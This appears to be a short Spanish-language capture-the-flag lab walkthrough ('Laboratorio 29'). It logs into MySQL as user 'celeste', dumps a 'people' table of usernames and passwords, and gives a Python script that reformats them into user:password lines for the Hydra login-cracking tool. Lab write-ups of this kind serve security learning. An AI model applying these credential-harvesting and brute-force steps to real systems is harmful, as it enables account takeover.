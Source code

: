 **Laboratorio 29**

The user celeste has access to mysql but for what?

```sh
mysql -u celeste -p
```
Este comando se utiliza para establecer una conexión a un servidor MySQL como el usuario `celeste`. Necesitarás conocer la contraseña de este usuario (`-p`) para que la conexión sea exitosa.

```mysql
show databases;
use venus;
show tables;
select * from people;
```

Versión corta:
```sh
mysql -u celeste -p -e "SELECT * FROM people;" venus 
```
Muestra directamente la tabla.

**Pasos a seguir:**
1. Copia el contenido de la tabla mostrada.
2. Guarda el contenido en un archivo, digamos data.txt
3. Agrega este script en el mismo nivel de tu archivo `data.txt`
```python
# Empezo el prime

content = []

with open('data.txt', 'r') as file:
    for line in file:
        content.append(line.split('|'))

# Quito los encabezados y pie de pagina (Cambiar si es necesario)
content[:] = content[4:-1]

for i, line in enumerate(content):
    line[:] = line[2:4] # Obtengo las columnas donde esta el usuario y contraseña (Cambiar si es necesario)
    line[0] = line[0].strip() # Quito espacios al inicio y al final
    line[1] = line[1].strip()
    content[i] = ':'.join(line) # Formato user:password para usar hydra


with open('credentials.txt', 'w') as file:
    for line in content:
        file.write(line + '\n')

for line in content: # Muestra en consola el resultado
    print(line)
```
